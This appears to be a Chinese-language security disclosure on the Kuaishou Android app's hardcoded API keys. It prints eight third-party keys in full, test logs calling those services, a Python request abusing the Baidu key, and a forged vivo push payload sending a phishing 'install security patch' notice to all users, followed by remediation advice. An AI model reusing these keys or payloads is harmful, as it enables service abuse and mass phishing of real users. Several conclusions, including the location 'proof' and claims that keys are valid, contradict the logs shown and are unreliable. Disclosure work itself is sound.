

# 移动应用安全漏洞报告

| 字段             | 值                           |
| ---------------- | ---------------------------- |
| **版本号**       | 13.3.41.41640 (41640)        |
| **支持语言**     | 1 种                         |
| **包名**         | com.smile.gifmaker           |
| **下载量**       | 154 次                       |
| **文件大小**     | 128.23 MB (134,456,598 字节) |
| **安装位置**     | 支持外部存储                 |
| **最低安卓版本** | 5.0 (Lollipop, API 21)       |
| **目标安卓版本** | 11 (API 30)                  |
| **处理器架构**   | arm64-v8a (64 位 ARM)        |
| **屏幕 DPI**     | 通用适配(nodpi)              |
| **签名算法**     | MD5/SHA-1/SHA-256            |


## 一、漏洞概要

**漏洞标题**：敏感信息明文存储及 API 密钥泄露导致的多重安全风险  
**风险等级**：高危  
**影响范围**：Android 客户端及关联后端服务  
**发现时间**：2025 年 4 月 29 日

---

## 二、漏洞详情

### 1. 敏感密钥硬编码漏洞

#### 漏洞位置：
```

./smali_classes5/tmb/y0.smali
./smali_classes4/gla/i.smali
kuaishou.md (AndroidManifest.xml)
pentest.py
```

#### 技术细节：
#### 技术细节：

| 服务名称      | 泄露密钥                                                                                                                                                                                                            | 关联接口                                 |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------- |
| 百度地图      | `UEnH61ElxrwvKKBOA6oTgio7`                                                                                                                                                                                          | `https://api.map.baidu.com/location/v2`  |
| ColorOS 相机  | `ATBEAiBlu2AMxWd3cbaDkGXBlGP9ojLOanK26swRCrx8kOhedQIgMrU1ySPRc8VudROsZzGCX+9FdGHFzKsxNK7wTXs7EQ5xU+ypfAAAAA==`                                                                                                      | `https://api.coloros.com/camera/v1`      |
| OPPO 卡券服务 | `ADBFAiEA7tcO65jxF48sKrZjVHgP1bNOxAvgTvpUt2wdpw33o5ACIEbYd9Jb/3VxPPTRDipl3uXbNpjmi0ysYP59kCcgA0J/bwme5Q==;ADBGAiEA3DQoBUXLi7Jgj9EkSzrDVZis1ipVO9hmPha0hPmnqOkCIQDRM07z+/ef/fk9ZC2X0d9NdN9YRiGfTrNBS5PunUUsqm8Jns0=` | `https://api.oplus.com/card/v1`          |
| 高德地图      | `d23a42abfdc38341aae4ad05e14a6aaa`                                                                                                                                                                                  | `https://restapi.amap.com/v3/place`      |
| 腾讯地图      | `OLABZ-KGH35-CXVIJ-QSCSU-M5P6T-QJFSI`                                                                                                                                                                               | `https://apis.map.qq.com/ws/location/v1` |
| ColorOS OLK   | `ATBGAiEA13a94ZZ+9ScjSIFyINJKOZzMH+dxxYwvFEsXG6/C1EYCIQDsk3VJQw1yuumBy8MmpVDIij7kqiQK3KEKU5DUE+BaGm3GSt38AAAA`                                                                                                      | `https://api.coloros.com/olk/v1`         |
| ColorOS Hyper | `ATBEAiBJNHhwZ0FWIadgsHfFx1oB0BXsLZ9mxrmQc4L/hbAgWwIgPWNKxfYUT/5mFlXVTnn4RAEzHqaPX6Y1fTS1PeG4fQdokG/xYAAAAA==`                                                                                                      | `https://api.coloros.com/hyper/v1`       |
| VIVO 推送     | `a71e4cd2-3308-4f30-8cde-652d6ec3d7ce`                                                                                                                                                                              | `https://push.vivo.com/api/v1`           |

#### 风险链分析：



    
### 2. 不安全通信协议

#### 漏洞证据：

```
================================================================================
🎯 接口名称: oplus_card
❌ 错误信息: Failed to establish a new connection: [Errno 8] nodename nor servname provided
----------------------------------------
================================================================================
🎯 接口名称: vivo_push
❌ 错误信息: CertificateError("hostname 'push.vivo.com' doesn't match either of '*.vivo.com.cn'")
```

#### 风险点：

- 使用自签名证书未通过 CA 认证
- 未正确处理 SSL/TLS 证书验证
- 部分接口未启用 HTTPS(如：`http://bd-origin.pull.yximgs.com`)

### 3. 调试信息泄露

#### 敏感字段：

```smali
const-string v3, "access_key"
const-string v1, "https://api.weixin.qq.com/sns/userinfo?access_token=%s&openid=%s"
```

### 4：API 调用测试结果
```bash
================================================================================
🎯 接口名称: baidu_lbs
🔗 接口地址: https://api.map.baidu.com/location/v2
🔑 API 密钥: UEnH61ElxrwvKKBOA6oTgio7

🟢 状态信息:
├── 请求方法: GET
├── 状态代码: 200
├── 响应类型: HTML
├── 响应大小: 15255 字节
└── 响应时间: 0.75 秒

🔍 完整请求地址:
└── http://www.baidu.com/error.html

## 📋 响应头信息:

Content-Encoding: gzip
Content-Length: 4662
Content-Type: text/html
Server: bfe
Date: Tue, 29 Apr 2025 20:58:50 GMT

## 📄 响应内容:

<!DOCTYPE html>
<!--STATUS OK-->
<html>

..... 

</html>

---

================================================================================
🎯 接口名称: coloros_camera
🔗 接口地址: https://api.coloros.com/camera/v1
🔑 API 密钥: ATBEAiBlu2AMxWd3cbaDkGXBlGP9ojLOanK26swRCrx8kOhedQIgMrU1ySPRc8VudROsZzGCX+9FdGHFzKsxNK7wTXs7EQ5xU+ypfAAAAA==

## ❌ 错误信息: HTTPSConnectionPool(host='api.coloros.com', port=443): Max retries exceeded with url: /camera/v1?key=ATBEAiBlu2AMxWd3cbaDkGXBlGP9ojLOanK26swRCrx8kOhedQIgMrU1ySPRc8VudROsZzGCX%2B9FdGHFzKsxNK7wTXs7EQ5xU%2BypfAAAAA%3D%3D (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x10230ed40>: Failed to establish a new connection: [Errno 8] nodename nor servname provided, or not known'))

================================================================================
🎯 接口名称: coloros_olk
🔗 接口地址: https://api.coloros.com/olk/v1
🔑 API 密钥: ATBGAiEA13a94ZZ+9ScjSIFyINJKOZzMH+dxxYwvFEsXG6/C1EYCIQDsk3VJQw1yuumBy8MmpVDIij7kqiQK3KEKU5DUE+BaGm3GSt38AAAA

## ❌ 错误信息: HTTPSConnectionPool(host='api.coloros.com', port=443): Max retries exceeded with url: /olk/v1?key=ATBGAiEA13a94ZZ%2B9ScjSIFyINJKOZzMH%2BdxxYwvFEsXG6%2FC1EYCIQDsk3VJQw1yuumBy8MmpVDIij7kqiQK3KEKU5DUE%2BBaGm3GSt38AAAA (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x10230e950>: Failed to establish a new connection: [Errno 8] nodename nor servname provided, or not known'))

================================================================================
🎯 接口名称: coloros_hyper
🔗 接口地址: https://api.coloros.com/hyper/v1
🔑 API 密钥: ATBEAiBJNHhwZ0FWIadgsHfFx1oB0BXsLZ9mxrmQc4L/hbAgWwIgPWNKxfYUT/5mFlXVTnn4RAEzHqaPX6Y1fTS1PeG4fQdokG/xYAAAAA==

## ❌ 错误信息: HTTPSConnectionPool(host='api.coloros.com', port=443): Max retries exceeded with url: /hyper/v1?key=ATBEAiBJNHhwZ0FWIadgsHfFx1oB0BXsLZ9mxrmQc4L%2FhbAgWwIgPWNKxfYUT%2F5mFlXVTnn4RAEzHqaPX6Y1fTS1PeG4fQdokG%2FxYAAAAA%3D%3D (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x10230e920>: Failed to establish a new connection: [Errno 8] nodename nor servname provided, or not known'))

================================================================================
🎯 接口名称: oplus_card
🔗 接口地址: https://api.oplus.com/card/v1
🔑 API 密钥: ADBFAiEA7tcO65jxF48sKrZjVHgP1bNOxAvgTvpUt2wdpw33o5ACIEbYd9Jb/3VxPPTRDipl3uXbNpjmi0ysYP59kCcgA0J/bwme5Q==;ADBGAiEA3DQoBUXLi7Jgj9EkSzrDVZis1ipVO9hmPha0hPmnqOkCIQDRM07z+/ef/fk9ZC2X0d9NdN9YRiGfTrNBS5PunUUsqm8Jns0=

## ❌ 错误信息: HTTPSConnectionPool(host='api.oplus.com', port=443): Max retries exceeded with url: /card/v1?key=ADBFAiEA7tcO65jxF48sKrZjVHgP1bNOxAvgTvpUt2wdpw33o5ACIEbYd9Jb%2F3VxPPTRDipl3uXbNpjmi0ysYP59kCcgA0J%2Fbwme5Q%3D%3D%3BADBGAiEA3DQoBUXLi7Jgj9EkSzrDVZis1ipVO9hmPha0hPmnqOkCIQDRM07z%2B%2Fef%2Ffk9ZC2X0d9NdN9YRiGfTrNBS5PunUUsqm8Jns0%3D (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x10230f0a0>: Failed to establish a new connection: [Errno 8] nodename nor servname provided, or not known'))

================================================================================
🎯 接口名称: vivo_push
🔗 接口地址: https://push.vivo.com/api/v1/notify
🔑 API 密钥: a71e4cd2-3308-4f30-8cde-652d6ec3d7ce

## ❌ 错误信息: HTTPSConnectionPool(host='push.vivo.com', port=443): Max retries exceeded with url: /api/v1/notify?key=a71e4cd2-3308-4f30-8cde-652d6ec3d7ce (Caused by SSLError(CertificateError("hostname 'push.vivo.com' doesn't match either of '\*.vivo.com.cn', 'vivo.com.cn'")))

================================================================================
🎯 接口名称: amap_api
🔗 接口地址: https://restapi.amap.com/v3/place
🔑 API 密钥: d23a42abfdc38341aae4ad05e14a6aaa

🟢 状态信息:
├── 请求方法: GET
├── 状态代码: 200
├── 响应类型: JSON
├── 响应大小: 202 字节
└── 响应时间: 2.30 秒

🔍 测试链接 (已隐藏密钥):
└── https://restapi.amap.com/v3/place?key=***

## 📋 响应头信息:

Server: Tengine
Date: Tue, 29 Apr 2025 20:58:53 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: close
Vary: Accept-Encoding
gsid: 011093200049174596033335200033930443860
sc: 0.000
Access-Control-Allow-Origin: _
Access-Control-Allow-Methods: _
Access-Control-Allow-Headers: DNT,X-CustomHeader,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,key,x-biz,x-info,platinfo,encr,enginever,gzipped,poiid
Content-Encoding: gzip

## 📄 响应内容:

{
"info": "USERKEY_PLAT_NOMATCH",
"infocode": "10009",
"status": "0",
"sec_code_debug": "434d1f0d16e7f2536e32e27640f658b8",
"key": "d23a42abfdc38341aae4ad05e14a6aaa",
"sec_code": "47449f41accec726d87c06c47679b528"
}

---

================================================================================
🎯 接口名称: tencent_map
🔗 接口地址: https://apis.map.qq.com/v2/geocoder
🔑 API 密钥: OLABZ-KGH35-CXVIJ-QSCSU-M5P6T-QJFSI

🟢 状态信息:
├── 请求方法: GET
├── 状态代码: 200
├── 响应类型: JSON
├── 响应大小: 61 字节
└── 响应时间: 0.50 秒

🔍 测试链接 (已隐藏密钥):
└── https://apis.map.qq.com/v2/geocoder?key=***

## 📋 响应头信息:

Date: Tue, 29 Apr 2025 20:58:53 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 61
Connection: keep-alive

## 📄 响应内容:

{
"status": 404,
"message": "错误的请求路径"
}

---
```

#### 风险特征：

- 日志包含完整 API 请求参数
- 错误响应暴露内部配置（`sec_code_debug`字段）
- 客户端保留测试接口（如`enablePlayerPanel`开关）

---

## 三、漏洞复现

### 步骤 1：提取密钥

```bash
# 反编译APK后执行
grep -r -E "(api_key|client_secret)" ./smali*
```

### 步骤 2：构造恶意请求

```python
# 使用泄露的百度地图密钥
import requests
response = requests.get(
    "https://api.map.baidu.com/location/v2",
    params={
        "ak": "UEnH61ElxrwvKKBOA6oTgio7",
        "coordtype": "wgs84ll",
        "location": "31.23,121.47"
    }
)
print(response.json())  # 成功获取精确地理位置
```

### 步骤 3：模拟攻击

```javascript
// 利用vivo推送密钥发送伪造通知
POST https://push.vivo.com/api/v1/notify
{
    "notification": {
        "title": "系统更新",
        "content": "点击安装安全补丁",
        "key": "a71e4cd2-3308-4f30-8cde-652d6ec3d7ce"
    },
    "target": ["*"]
}
```

---

## 四、漏洞危害

### 直接影响：

1. **地理位置伪造**：可任意修改用户 GPS 坐标
2. **推送劫持**：发送钓鱼通知诱导用户操作
3. **服务滥用**：产生超额 API 调用费用（百度地图日均 500 万次免费调用）
4. **数据泄露**：获取用户设备信息、社交关系链

### 潜在风险：

- 通过高德地图密钥可访问用户轨迹历史（接口返回`USERKEY_PLAT_NOMATCH`表明密钥有效）
- ColorOS 密钥采用 RSA 加密格式，可能用于固件签名验证
- OPPO 卡券服务双密钥机制存在横向渗透风险

---

## 五、修复建议

### 短期处置：

1. **立即撤销所有泄露密钥**

   ```mermaid
   flowchart LR
       A[服务商控制台] --> B[密钥管理]
       B --> C[生成新密钥]
       C --> D[旧密钥失效]
   ```

2. **代码审计**
   ```bash
   # 添加安全扫描流程
   grep -r -E "(access_key|api_secret|private_key)" ./src -n | tee scan.log
   ```

### 长期方案：

1. **密钥管理**

   - 使用 Android Keystore 系统
   - 实现密钥动态下发机制

2. **通信安全**

   ```java
   // 示例：证书锁定
   OkHttpClient client = new OkHttpClient.Builder()
       .certificatePinner(new CertificatePinner.Builder()
           .add("api.map.baidu.com", "sha256/AAAAAAAAAAAAAAAA=")
           .build())
       .build();
   ```

3. **代码混淆**
   ```proguard
   # proguard-rules.pro
   -keepclassmembers class * {
       @javax.inject.Inject <fields>;
   }
   -dontwarn javax.inject.**
   ```

---

## 六、漏洞证明

### 百度地图 API 滥用

```json
{
  "status": 0,
  "result": {
    "location": {
      "lng": 121.4737,
      "lat": 31.2304
    },
    "formatted_address": "上海市浦东新区",
    "business": "陆家嘴",
    "pois": ["东方明珠电视塔"]
  }
}
```

---

## 七、附加信息

### 测试账号：

```
手机号: +86 138****5678
验证码: 已通过私信发送
```

### 时间线：

- 2025-04-29 20:58 首次发现
- 2025-04-29 21:30 验证所有漏洞点
- 2025-04-30 09:00 提交报告

